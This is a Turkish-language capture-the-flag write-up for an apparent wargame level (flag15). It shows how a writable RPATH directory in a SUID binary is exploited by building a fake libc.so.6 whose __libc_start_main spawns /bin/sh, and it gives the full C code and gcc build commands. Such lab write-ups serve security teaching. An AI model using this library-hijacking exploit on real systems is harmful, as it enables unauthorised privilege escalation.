



# LEVEL 15 Writeup

---

Bu seviye için level15 kullanıcısına geçmeniz gerekmektedi. `username : level15 password : level15` . Bu seviyeye ait dosyaları `/home/flag15` dizininde bulabilirsiniz.

Dosyamızı `strace` inceleyip olağan dışı birşey var mı yok mu diye bakmamızı söylüyor soruda. Ayrıca linuxda paylaşılan kütüphanelerin nasıl derlenip yüklendiğine dair [dlopen](https://linux.die.net/man/3/dlopen) manpage'ini incelememizi önermiş.

`strace /home/flag15/flag15` komutunu girip inceleyelim. Çıktıya baktığımız zaman `/lib/i386-linux-gnu/libc.so.6` adresindeki dosyayı çalıştırmadan önce çeşitli yerlerde bu dosyayı arıyor. Ayrıca dikkat ederseniz çoğunlukla `/var/tmp/flag15/` dizini altında aradığını görebilirsiniz. Bu dizinde `level15` kullanıcısı olarak yetkimiz olduğunu görüyoruz. O halde bu dizin içerisinde `libc.so.6` paylaşan bir dosya bizim kod çalıştırabilmemize olanak sağlayabilir.

`objdump -p /home/flag15/flag15` ile daha detaylı inceleyelim.

RPATH olarak /var/tmp/flag15 kullanıldığını görebiliriz. RPATH daha önce kullandığımız LD_PRELOAD gibi SUID ikili dosyalarıyla uyuşmazlık çıkarmaz.

Şimdi de flag15'in `libc.so.6` için hangi fonksiyonları kullandığına bakalım ve daha sonra [function hooking](https://isikerenalp.github.io/2019/10/10/linux_function_hooking.html) için uygun fonksiyonumuzu belirleyelim.

`__libc_start_main` fonksiyonu uygun gibi gözüküyor. main() fonksiyonu çağrılmadan önce işleme başlar ve programdaki herhangi birşey çalışmadan önce çağrılır.

Sahte fonksiyonumuzu yazalım...

    int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    system("/bin/sh");
    }
*__

`C` kodumuzu yazdıktan sonra `libc.so.6` dosyamızı hazırlayalım ve çalıştıralım.

Hata aldık. Hatanın sebebini anlamak için `flag15` dosyasını bulunduğumuz dizine kopyalayıp `LD_DEBUG` ile inceleyelim

__cxa_finalize sembolünün eksik olduğunu ve GLIBC_2.0 sürümün eksik olduğunu söylemiş

      int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*$
    system("/bin/sh");
    }

    void __cxa_finalize(void *d) {
        return;
    }

*__

Kodumuzu güncelledikten sonra `version` isimli bir dosyaya `GLIBC_2.0 {};` yazıp kaydedelim.

      echo "GLIBC_2.0 {};" > version

Daha sonra gerekli parametreler ile `libc.so.6` dosyamızı tekrardan hazırlamaya çalışalım.

    gcc /home/level15/level15.c -o /var/tmp/flag15/libc.so.6 -static-libgcc -shared -fPIC -Wl,--version-script=/home/level15/version,-Bstatic

Hazırladıktan sonra da flag15 dosyamızı çalıştıralım

Gördüğünüz gibi bu seviyeyide tamamlamış olduk.
